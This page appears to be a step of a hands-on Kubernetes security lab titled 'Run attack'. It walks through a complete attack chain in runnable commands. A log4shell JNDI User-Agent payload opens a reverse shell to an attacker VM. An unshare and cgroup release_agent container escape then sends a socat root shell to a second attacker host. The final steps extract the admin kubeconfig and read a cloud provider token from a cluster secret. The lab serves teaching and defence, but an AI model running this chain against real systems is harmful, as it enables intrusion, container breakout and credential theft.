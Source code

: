 +++
title = "Run attack"
weight = 8
+++

Now let's start the attack. The following HTTP request triggers a log4shell vulnerability because the app logs the user agent.

Because of that log4j will connect to the attacker's LDAP server, which will provide a Java class that gets executed by the sample app and create a remote shell from the container to the attacker's netcat session:

**Run the following commands on the victim01 VM.**

```ctr
curl http://sample-app.default.${vminfo:victim01:public_ip}.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://${vminfo:attacker01:public_ip}:1389/a}'
```

The attacker01 VM now received a remote shell from the container.

**Run the following commands on the attacker01 VM.**

We can list the container filesystem

```ctr:
ls -la
```

or the running processes

```ctr:
ps auxf
```

Let's try to install kubectl into the container

```ctr:
curl -LO --insecure "https://dl.k8s.io/release/$(curl -L -s --insecure https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

And access the Kubernetes API. This should create an error, because the Pod's ServiceAccount does not have any permissions to access the Kubernetes API:

```ctr:
kubectl get pods
```

Let's try something else and list the Linux capabilities of the container

```ctr:
capsh --print
```

Not that our container does not have `cap_sys_admin` capabilities.

Let's try to change this by exploiting a Kernel vulnerability:

```ctr:
unshare -UrmC bash
capsh --print
```

Now that we have `cap_sys_admin` capabilities. We can try to exploit another Kernel bug to break out of the container and create a second remote shell from the host system to the attacker02 VM.

Create a new RDMA cgroup

```ctr:attacker01
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

Enables cgroup notifications on release of the "x" cgroup

```ctr:
echo 1 > /tmp/cgrp/x/notify_on_release
```

Get the path of the OverlayFS mount for our container

```ctr:
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```

Set the release agent to execute `/{overlay_fs_host_path}/cmd` on the host (`/cmd` inside of the container) when the cgroup is released

```ctr:
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

Create the command, which will run socat and create a remote shell to the attacker02 VM

```ctr:
echo '#!/bin/bash' > /cmd
echo "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:${vminfo:attacker02:public_ip}:4444" >> /cmd
chmod a+x /cmd
```

Run `echo` in the cgroup, which will directly exit and trigger the release agent cmd (execute `/{overlay_fs_host_path}/cmd`):

```ctr:
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Now we got a remote shell on the attacker02 VM where we are root directly on the victim01 host

**Run the following commands on the attacker02 VM.**

```ctr:
whoami
docker ps
```

Install kubectl

```ctr:
docker cp kubelet:/usr/local/bin/kubectl /usr/bin/
```

Get kubeconfig

```ctr:
kubectl --kubeconfig $(docker inspect kubelet --format '{{ range .Mounts }}{{ if eq .Destination "/etc/kubernetes" }}{{ .Source }}{{ end }}{{ end }}')/ssl/kubecfg-kube-node.yaml get configmap -n kube-system full-cluster-state -o json | jq -r .data.\"full-cluster-state\" | jq -r .currentState.certificatesBundle.\"kube-admin\".config | sed -e "/^[[:space:]]*server:/ s_:.*_: \"https://127.0.0.1:6443\"_" > kubeconfig_admin.yaml

export KUBECONFIG=$(pwd)/kubeconfig_admin.yaml
```

Now we are admin in the Kubernetes cluster

```ctr:
kubectl get pods -A
```

Get the cloud provider token

```ctr:
do_token=$(kubectl get secret -n kube-system digitalocean -o jsonpath="{.data.access-token}" | base64 --decode)
```

Install doctl

```ctr:
cd ~
wget https://github.com/digitalocean/doctl/releases/download/v1.94.0/doctl-1.94.0-linux-amd64.tar.gz
tar xf ~/doctl-1.94.0-linux-amd64.tar.gz
mv ~/doctl /usr/bin
```

Try to log in with the fake token (this will fail):

```ctr:
doctl auth init -t $do_token
```
